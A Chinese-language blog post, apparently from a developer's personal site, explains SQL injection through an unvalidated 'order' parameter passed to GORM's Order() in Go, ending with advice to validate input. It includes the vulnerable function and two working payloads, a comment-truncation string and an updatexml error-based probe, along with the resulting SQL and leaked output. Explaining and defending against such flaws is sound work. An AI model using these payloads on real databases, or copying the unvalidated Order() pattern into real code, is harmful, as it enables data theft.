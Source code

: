 ```yaml
---
title: gorm OrderBy注入
date: "2022-03-15 15:40:41"
updated: "2022-03-15 15:53:18"
url: https://danbai225.github.io/?p=547
categories:
    - 数据库
tags:
    - Go
    - MySQL
    - gorm
    - sql
summary: |-
    在上述代码中，存在一个安全隐患：`order` 参数没有经过校验，可能导致 SQL 注入攻击。尽管 GORM 已经有一定的防注入措施，但仍存在一些方法没有转义。在不进行参数校验的情况下，攻击者可以构造恶意的 `order` 参数来执行危险的 SQL 查询。

    一个示例是通过构造 `order` 参数来爆出符合条件的所有数据。攻击者可以构造 `order` 参数为 `id;--`，从而将原本的 SQL 查询改为查询所有数据的语句。

    另一个示例是通过构造 `order` 参数来执行 `updatexml` 函数，从而进行更多的信息泄露。攻击者可以构造 `order` 参数为 `updatexml(1,if(1=2,1,concat(0x7e,database(),0x7e)),1)`，从而执行该函数并通过错误回显获取数据库的信息。

    为了避免这些安全隐患，建议在使用前对参数进行校验。可以使用合适的正则表达式或者白名单来限制 `order` 参数的值，确保其只包含被允许的字符和语法。此外，还可以对输入的参数进行转义或者使用参数绑定的方式来构建 SQL 查询，防止注入攻击的发生。

    通过对参数进行校验和处理，可以有效提升系统的安全性，防止 SQL 注入攻击。
id: "547"
---
```


# 环境代码
有时为了方便前端排序可能会将`order`作为参数传入，这是不安全的。

虽然gorm有防注入但还是有些方法是没有转义的。
[gorm不安全的方法](https://gorm.io/zh_CN/docs/security.html)

```go
func TestGetList(pageNum, pageSize int, order string) []modle.Test {
	if pageSize == 0 {
		pageSize = 20
	}
	if pageNum == 0 {
		pageNum = 1
	}
	begin := db.GetDB()
	tests := make([]modle.Test, 0)
	err := begin.Model(&modle.Test{}).Order(order).Offset((pageNum - 1) * pageSize).Limit(pageSize).Find(&tests).Error
	if err != nil {
		log.Println(err.Error())
	}

	return tests
}

```

## 爆出符合条件的所有数据
请求：
```
{
    "order":"id;-- "
}
```
执行sql 
```
SELECT * FROM `test` ORDER BY id;--  LIMIT 20
```
返回：符合条件的所有数据

## updatexml
如果有报错回显的话还可能造成更多泄露
请求：
```
{
    "order":"updatexml(1,if(1=2,1,concat(0x7e,database(),0x7e)),1)"
}
```
日志：
```
Error 1105: XPATH syntax error: '~test~'
```
# 建议
在使用前校验参数
